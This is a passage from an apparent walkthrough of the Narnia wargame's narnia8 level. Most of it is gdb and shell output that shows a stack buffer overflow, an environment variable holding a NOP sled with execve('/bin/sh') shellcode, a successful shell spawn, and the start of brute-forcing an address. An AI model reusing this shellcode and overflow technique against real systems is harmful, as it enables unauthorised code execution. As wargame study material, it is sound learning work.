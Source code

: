 The program being debugged has been started already.
Start it from the beginning? (y or n) y
>
Starting program: /games/narnia/narnia8 $(python -c 'print "A"*20+"\x18\xd8\xff\xff"+"A"*12+"RRRR"')
>
Breakpoint 1, 0x080484a7 in func ()
(gdb) x/s *((char **)environ)
0xffffd841:	"XDG_SESSION_ID=107376"
(gdb) x/s *((char **)environ+1)
0xffffd857:	"SHELL=/bin/bash"
(gdb) x/s *((char **)environ+2)
0xffffd867:	"TERM=xterm"
(gdb) x/s *((char **)environ+3)
0xffffd872:	"SSH_CLIENT=68.1.62.184 36662 22"
(gdb) x/s *((char **)environ+4)
0xffffd892:	"SSH_TTY=/dev/pts/34"
(gdb) x/s *((char **)environ+5)
0xffffd8a6:	"LC_ALL=C"
(gdb) x/s *((char **)environ+6)
0xffffd8af:	"EGG=", '\220' <repeats 100 times>, "\061\333\215C\027\231\315\200\061\311Qhn/shh//bi\215A\v\211\343\315\200"
(gdb) run $(python -c 'print "A"*20+"\x18\xd8\xff\xff"+"A"*12+"\xaf\xd8\xff\xff"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
>
Starting program: /games/narnia/narnia8 $(python -c 'print "A"*20+"\x18\xd8\xff\xff"+"A"*12+"\xaf\xd8\xff\xff"')
>
Breakpoint 1, 0x080484a7 in func ()
(gdb) c
Continuing.
AAAAAAAAAAAAAAAAAAAA���AAAAAAAAAAAA�������
process 5159 is executing new program: /bin/dash
Warning:
Cannot insert breakpoint 1.
Cannot access memory at address 0x80484a7
>```
>
> Perfect.  That makes me happy.  We can see that once we used the correct address we were successfully able to return to the shellcode and run it.  Now, here is gets a little tricky again.  As soon as we get out of ```gdb``` things are going to change on us again, only we won't have all of the fancy tools to help us locate the new address.  As of now, the best way I know to proceed is to brute force. Let's start with the address of ```argv[1]```.
>
>```
narnia8@melinda:/narnia$ ./narnia8 $(python -c 'print "A"*20+"\x19\xd8\xff\xff"+"A"*12+"\xaf\xd8\xff\xff"')
AAAAAAAAAAAAAAAAAAAAA��
narnia8@melinda:/narnia$ ./narnia8 $(python -c 'print "A"*20+"\x1a\xd8\xff\xff"+"A"*12+"\xaf\xd8\xff\xff"')
AAAAAAAAAAAAAAAAAAAAA��
narnia8@melinda:/narnia$ ./narnia8 $(python -c 'print "A"*20+"\x1b\xd8\xff\xff"+"A"*12+"\xaf\xd8\xff\xff"')
AAAAAAAAAAAAAAAAAAAAA��
narnia8@melinda:/narnia$ ./narnia8 $(python -c 'print "A"*20+"\x1c\xd8\xff\xff"+"A"*12+"\xaf\xd8\xff\xff"')
AAAAAAAAAAAAAAAAAAAAA��
narnia8@melinda:/narnia$ ./narnia8 $(python -c 'print "A"*20+"\x1d\xd8\xff\xff"+"A"*12+"\xaf\xd8\xff\xff"')
AAAAAAAAAAAAAAAAAAAAA��
narnia8@melinda:/narnia$ ./narnia8 $(python -c 'print "A"*20+"\x1e\xd8\xff\xff"+"A"*12+"\xaf\xd8\xff\xff"')
AAAAAAAAAAAAAAAAAAAAA��